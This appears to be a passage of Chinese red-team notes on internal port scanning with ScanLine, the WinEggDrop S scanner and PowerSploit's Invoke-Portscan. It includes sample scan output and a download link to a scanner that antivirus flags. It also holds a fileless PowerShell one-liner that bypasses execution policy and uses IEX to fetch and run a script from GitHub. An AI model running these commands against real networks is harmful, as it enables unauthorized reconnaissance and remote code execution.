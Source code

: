 ## ****ScanLine****

上面有介绍

```php
scanline.exe -h -t 22,80,445,3389 -p 10.10.10.10
```

## 四、S扫描器

火绒会杀

下载：

[https://pan.baidu.com/s/1gdGM4F5](https://pan.baidu.com/s/1gdGM4F5)

使用：

```php
C:\Users\de1ay.DE1AY\Desktop>s.exe tcp 10.10.10.10 22,80,3389,445 7
TCP Port Scanner V1.1 By WinEggDrop

Normal Scan: About To Scan 4 Ports Using 7 Thread
10.10.10.10      3389  Open
10.10.10.10      445   Open
Scan 10.10.10.10 Complete In 0 Hours 0 Minutes 3 Seconds. Found 2 Open Ports
```

## 五、PowerShell

### ****PowerSploit****

PowerSploit的Invoke-Portscan 脚本

下载地址：

[https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1)

使用：

无文件方式：

```php
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 10.10.10.10 -T 4 -ports '445,1433,80,8080,3389'"
```

我没有成功

有文件

```php
powershell.exe -exec bypass -Command "Import-Module ./Invoke-Portscan.ps1;Invoke-Portscan -Hosts 10.10.10.10 -T 4 -ports '445,1433,80,8080,3389'"
```
